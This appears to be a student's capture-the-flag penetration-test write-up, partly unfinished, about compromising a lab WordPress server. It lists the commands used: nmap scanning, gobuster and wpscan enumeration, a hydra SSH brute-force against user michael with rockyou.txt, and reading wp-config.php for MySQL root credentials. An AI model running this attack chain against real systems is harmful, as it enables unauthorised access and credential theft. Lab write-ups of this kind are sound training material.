


# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
nmap -sS -A 192.168.1.110

```
  
  


This scan identifies the services below as potential points of entry:

- **Target 1**

- Open port 22 dedicated to SSH services
- Open port 80 dedicated to HTTP services
- Apache http version 2.4.1.0
- OS version Windows 6.1 (Smba 4.2)


  

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:
- Target 1
  - List of
  - Critical
  - Vulnerabilities

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation


The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

- **Target 1**

  - [Flag 1 Screen Shot ](../images/flag1-view-source2.png), `Flag1.txt`: **flag1{b9bbcb33e1b80be759c4e844862482d}**
   
    - **Exploit Used**

      - Using gobuster to identify web directories and exploring them during scanning and enumeration 
      - **`gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium dir -e -u http://192.168.1.110 -x .php,txt,html`**

      - Upon inspection of the source code of service page flag1 was identified in comments under the code for the html footer

  - [Flag 2 Screen Shot](../images/flag2.png), `Flag2.txt`: **flag2{fc3fd58dcdad9ab23faca6e9a36e581c}**

    - **Exploit Used**
     - Remote SSH connection after identifying a user with wpscan. One of the users identified was michael
     - `wpscan --url http://192.168.1.110/wordpress -eu`

     - Brute forcing the pssword for michael wiht hydra
     - **`hydra -l michael -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.110 -t 4`**

     - Connecting via SSH as Michael
     - **`ssh michael@192.168.1.10`**

     - Searching for the flag
     - **`find -type f -iname ‘flag*’ 2>dev/null`**
    
  - [Flag 3 Screen Shot](../images/flag34-2.png), Flag3.txt: **flag3{afc01ab56b50591e7dccf93122770cd2}**

    - Inspecting wp-config.php to look for root access password to MySQL database
    - **`cat /var/www/html/wordpress/wp-config.php`**

    - Loging on to the MySQL server
    - **`mysql -u root -p`**

    - Inspecting MySQL tables  for flags
    - **`show databases;`**
    - **`show tables`**
    - **`select * from wp_posts;`**

